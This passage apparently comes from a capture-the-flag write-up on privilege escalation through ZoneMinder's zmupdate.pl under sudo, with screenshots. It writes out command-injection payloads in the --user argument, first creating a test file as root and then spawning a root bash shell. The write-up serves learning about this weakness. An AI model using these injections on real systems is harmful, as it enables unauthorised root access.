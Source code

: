 ![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20090551.png?raw=true)

3. Try to run zmupdate.pl

```terminal
sudo zmupdate.pl --user='$(touch /tmp/test)'
```

4. Check the file was created, with root permissions

```terminal
ls -l /tmp
```

![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20090626.png?raw=true)


5. Attempt to open a new shell

```terminal
sudo /usr/bin/zmupdate.pl --version 1 --user='$(/bin/bash)'
```
![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20090657.png?raw=true)